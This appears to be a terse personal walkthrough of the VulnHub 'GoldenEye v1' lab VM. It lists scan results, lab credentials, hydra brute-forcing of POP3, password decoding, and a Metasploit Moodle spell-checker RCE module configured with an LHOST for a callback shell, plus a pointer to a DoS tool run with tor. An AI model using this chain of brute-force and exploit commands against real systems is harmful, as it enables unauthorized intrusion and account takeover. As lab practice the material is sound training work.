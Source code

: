 ```yaml
---
{"dg-publish":true,"permalink":"/exploit-from-kali/golden-eye-vulnerability/","tags":["vulnhub","walkthrought"]}
---
```


	
	Goldenn eye v1 passthrough
	
	PORT      STATE SERVICE
	25/tcp    open  smtp
	80/tcp    open  http
	55006/tcp open  unknown
	55007/tcp open  unknown
	
	encoded password -InvincibleHack3r
	
	user	password
	boris	secret1!
	natalya	bird   
	xenia  RCP90rulez!
	doak 	goat
	username: dr_doak
	password: 4England!
	hash 	eFdpbnRlcjE5OTV4IQ==
	admin  xWinter1995x!
	
	arp
	sudo netdiscover
	./nmapAutomator.sh 192.168.0.199 All
	192.168.0.199/terminal.js
	brup pro
	decoder option 
	&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
	
	InvincibleHack3r
	
	user	password
	boris	InvincibleHack3r
	http://192.168.0.199/sev-home/
	
	nc 192.168.0.199 55006
	LIST
	
	user boris
	pass secret1
	
	http://severnaya-station.com/gnocertdir
	mozilla proxy or host name
	
	sudo nano /etc/hosts
	192.168.0.199                 severnaya-station.com/gnocertdir
	
	WEBPAGE 
	VIEW PAGE SOURCE  INNSPECT 
	
	INDEX.JS
	telnet 192.168.0.199 55007
	
	sudo apt install hydra
	
	sudo apt install wordlists
	
	hydra -l boris -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user boris
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	
	
	hydra -l doak -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user doak
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	http://severnaya-station.com/gnocertdir
	username: dr_doak
	password: 4England!
	
	search   s3cret .txt
	http://severnaya-station.com/dir007key/for-007.jpg
	save file
	sudo apt install exiftool
	exiftool for-007.jpg 
	search image discription >>>>> eFdpbnRlcjE5OTV4IQ==
	https://www.base64decode.org/
	eFdpbnRlcjE5OTV4IQ==
	      decode
	xWinter1995x!
	
	http://severnaya-station.com/
	admin  xWinter1995x
	site administration>Plugins>Text editor>manage editor>
	Pspellshell
	search google pspell shell exploit
	
	msfconsole
	search moodle
	use exploit/multi/http/moodle_spelling_path_rce
	choose zero
	show info
	options
	set PASSWORD xWinter1995x!
	set RHOSTS severnaya-station.com
	set targeturi /gnocertdir
	set LHOST 192.168.0.181
	control l key press
	options
	run
	https://github.com/jseidl/GoldenEye
	service tor start
	
	sudo apt-get install etherape
	sudo etherape